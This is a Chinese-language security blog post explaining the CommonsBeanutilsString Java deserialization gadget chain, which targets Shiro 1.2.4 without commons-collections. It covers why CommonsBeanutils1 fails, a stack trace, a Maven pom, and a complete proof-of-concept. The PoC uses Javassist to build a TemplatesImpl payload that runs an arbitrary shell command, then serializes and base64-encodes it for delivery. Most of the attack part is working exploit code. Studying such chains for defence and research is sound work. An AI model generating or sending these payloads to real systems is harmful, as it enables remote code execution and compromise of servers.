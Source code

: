 ```yaml
---
title: Java反序列化利用链之CommonsBeanutilsString
date: 2024-03-04 18:53:00 +0800
img_path: /
categories: [Java安全, Java反序列化]
tags: [Java安全, Java反序列化]     

---
```


# CommonsBeanutilsString

在`shiro 1.2.4`中是默认存在一个`CommonsBeanutils 1.8.3`的依赖的，所以打`shiro`反序列化时可以尝试使用`CommonsBeanutilsString`打，也就是不依赖`cc`的链子。

![image-20240304173654353](assets/image-20240304173654353.png)

为什么`CommonsBeanutils1`不行呢？

```java
//   CommonsBeanutils1
     final BeanComparator comparator = new BeanComparator();
```

回到`BeanComparator`的构造方法中可以看到当我们使用`CommonsBeanutils1`的`Poc`时，创建`BeanComparator`使用的是

`BeanComparator(String property)`的构造方法，在该方法中其实是使用了`commons-collections`这个依赖的。

![image-20240304174405667](assets/image-20240304174405667.png)

所以当我们不存在`commons-collections`依赖时`CommonsBeanutils1`这条链子就不能正常走通了。

```java
Exception in thread "main" java.lang.NoClassDefFoundError: org/apache/commons/collections/comparators/ComparableComparator
	at org.apache.commons.beanutils.BeanComparator.<init>(BeanComparator.java:81)
	at org.apache.commons.beanutils.BeanComparator.<init>(BeanComparator.java:59)
	at org.example.cb1.CB1Poc.main(CB1Poc.java:52)
Caused by: java.lang.ClassNotFoundException: org.apache.commons.collections.comparators.ComparableComparator
	at java.net.URLClassLoader.findClass(URLClassLoader.java:387)
	at java.lang.ClassLoader.loadClass(ClassLoader.java:418)
	at sun.misc.Launcher$AppClassLoader.loadClass(Launcher.java:355)
	at java.lang.ClassLoader.loadClass(ClassLoader.java:351)
	... 3 more
```

但是我们可以看到下方还存在一个`BeanComparator`的构造方法：

![image-20240304174932492](assets/image-20240304174932492.png)

而且当我们指定`comparator`后就可以不使用`ComparableComparator`从而绕过`cc`依赖的限制。

那么我们需要去找一个类进行替换，满足以下条件

- 实现`Serializable`接口
- 实现`Comparator`接口
- `Java`或者`commons beanutils`中自带

这里的话找到了`Java.lang.String`下的`CaseInsensitiveComparator`这个内部类，他满足了上面的条件，代码如下

![image-20240304175153118](assets/image-20240304175153118.png)

`String`类还有一个静态成员变量`CASE_INSENSITIVE_ORDER`是`CaseInsensitiveComparator`对象，那我们可以直接拿来用，只需把之前的POC的new的那行代码进行更改，传入两个参数让他去调用俩参数的构造方法即可，但是这里直接运行会报错`java.lang.Integer cannot be cast to java.lang.String`，我们只需要把`queue.add`添加的东西变为字符串即可，就变成了：

```java
        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
```

`pom.xml`文件依赖：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>JavaDeserialization</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>
    <dependencies>
        <dependency>
            <groupId>javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.12.1.GA</version>
        </dependency>
        <dependency>
            <groupId>commons-beanutils</groupId>
            <artifactId>commons-beanutils</artifactId>
            <version>1.8.3</version>
        </dependency>
    </dependencies>
</project>
```

最终`Poc`如下：

```java
package org.example.cbstring;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.beanutils.BeanComparator;
import org.example.util.Tools;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class CBStringPoc {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static CtClass genPayload(String cmd) throws NotFoundException, CannotCompileException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("Exp");

        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public Exp() throws Exception {\n" +
                "            try {\n" +
                "                    String tc = \"" + cmd + "\";\n" +
                "                    String[] cmd = System.getProperty(\"os.name\").toLowerCase().contains(\"windows\") " +
                "                        ? new String[]{\"cmd.exe\", \"/c\", tc} : new String[]{\"/bin/sh\", \"-c\", tc};" +
                "            new ProcessBuilder(cmd).start();" +
                "            } catch (Exception e) {\n" +
                "                e.getStackTrace();\n" +
                "            }\n" +
                "        }", clazz));

        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }

    public static String base64Encode(byte[] bytes) {
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString(bytes);
    }

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(final byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }

    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{genPayload("calc").toBytecode()});
        setFieldValue(obj, "_name", "Hello");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
		//CommonsBeanutilsString
        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        
        final PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        byte[] se = serialize(queue);
        System.out.println(base64Encode(se));
        Tools.deserialize(se);
    }
}
```

